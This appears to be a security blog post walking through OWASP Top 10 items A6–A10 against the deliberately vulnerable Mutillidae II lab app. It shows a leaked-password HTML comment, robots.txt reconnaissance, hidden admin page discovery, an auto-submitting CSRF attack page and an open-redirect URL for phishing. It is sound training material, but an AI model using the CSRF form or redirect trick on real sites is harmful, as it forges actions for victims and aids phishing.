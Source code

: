 +++
categories = ["owasp", "web"]
description = ""
keywords = ["Mutillidae", "owasp", "sqli", "exploit"]
date = "2015-02-06T04:29:36Z"
title = "OWASP Top 10 in Mutillidae (Part2)"

+++

This post is continuation from [previous post][prev]. We explore less common, however, still potentially very dangerous *OWASP Top 10* threats. 
Here we go through 6th to 10th places in the list.

[prev]: /blog/2015/02/03/owasp-top-10-in-mutillidae-part1

<!--more-->

## A6 Sensitive Data Exposure

Many web applications do not properly protect sensitive data, such as credit cards, tax IDs, and authentication credentials. Attackers may steal or modify such weakly protected data to conduct credit card fraud, identity theft, or other crimes. Sensitive data deserves extra protection such as encryption at rest or in transit, as well as special precautions when exchanged with the browser.

Sensitive data can be extracted from HTML storage, HTTP headers or in this example even from HTML comments in the page source code (*index.php*):

```
<!-- I think the database password is set to blank or perhaps samurai.
It depends on whether you installed this web app from irongeeks site or
are using it inside Kevin Johnsons Samurai web testing framework.
It is ok to put the password in HTML comments because no user will ever see
this comment. I remember that security instructor saying we should use the
framework comment symbols (ASP.NET, JAVA, PHP, Etc.)
rather than HTML comments, but we all know those
security instructors are just making all this up. -->			<!-- End Content -->
```

## A7 Missing Function Level Access Control

Most web applications verify function level access rights before making that functionality visible in the UI. However, applications need to perform the same access control checks on the server when each function is accessed. If requests are not verified, attackers will be able to forge requests in order to access functionality without proper authorization.

First example in mutillidae is the `robots.txt` file:

```
User-agent: *
Disallow: passwords/
Disallow: config.inc
Disallow: classes/
Disallow: javascript/
Disallow: owasp-esapi-php/
Disallow: documentation/
Disallow: phpmyadmin/
Disallow: includes/
```

While it prevents web crawlers from indexing these files and folders, it also gives the attacker information about the structure of the website. And in this case even provides with sensitive information directly (The *passwords* folder
contains information about few legitimate accounts). 

Another "security by obscurity" example is "secret" administrative or configuration pages. Using Burp-Intruder in sniper mode or dirbuster we could find secret pages. Sometimes they are very obvious such as 
*secret.php, admin.php, administrator.php*. In our case *phpmyadmin.php* page is accessible to anyone, even anonymous user.

## A8 Cross-Site Request Forgery (CSRF)

A CSRF attack forces a logged-on victim's browser to send a forged HTTP request, including the victim's session cookie and any other automatically included authentication information, to a vulnerable web application. This allows the attacker to force the victim's browser to generate requests the vulnerable application thinks are legitimate requests from the victim.

The `add-to-your-blog.php` page is vulnerable to CSRF. We can intercept the POST request with burp: 

![burp](/images/2015/02/06/burp.png)

Using this information we can construct a malicious form which submits the data upon loading the page (onload function):

```html
<html>
    <body onload="document.createElement('form').submit.call(document.getElementById('evil'))">
        <form id="evil" action="http://192.168.1.66/mutillidae/index.php?page=add-to-your-blog.php" method="post" enctype="application/x-www-form-urlencoded"> 
            <input type="hidden" name="csrf-token" value=""/> 
            <input type="hidden" name="blog_entry" value="I made you post this!"/> 
            <input type="hidden" name="add-to-your-blog-php-submit-button" value="Save+Blog+Entry"/> 
        </form>
    </body>
</html>
```

If logged in user (with a valid session token) visits this malicious page, then a new blog post is made on the users behalf:

![blog](/images/2015/02/06/blog.png)

## A9 Using Components with Known Vulnerabilities

Components, such as libraries, frameworks, and other software modules, almost always run with full privileges. If a vulnerable component is exploited, such an attack can facilitate serious data loss or server takeover. Applications using components with known vulnerabilities may undermine application defenses and enable a range of possible attacks and impacts.

In our case obtaining information about the server components is pretty easy (*phpinfo.php*):

![info](/images/2015/02/06/info.png)

However, in this case the server components have no known vulnerabilities (at the time of writing).

## A10 Unvalidated Redirects and Forwards

Web applications frequently redirect and forward users to other pages and websites, and use untrusted data to determine the destination pages. Without proper validation, attackers can redirect victims to phishing or malware sites, or use forwards to access unauthorized pages.

In our case the credits page is vulnerable to unvalidated redirect. 

`http://192.168.1.66/mutillidae/index.php?page=redirectandlog.php&forwardurl=http://www.owasp.org`

Here, the `forwardurl` specifies the redirection url and the attacker can point to a malicious page. Unvalidated redirects can increase the success rate in phishing attacks, because the first part of the link looks "legit".

## Summary

*OWASP Top 10* describes most common web vulnerabilities found in the real world. *Mutillidae II* is deliberately vulnerable web application and contains at least one vulnerability from each OWASP category. It provides good
insight into majority of web related exploitation methods.

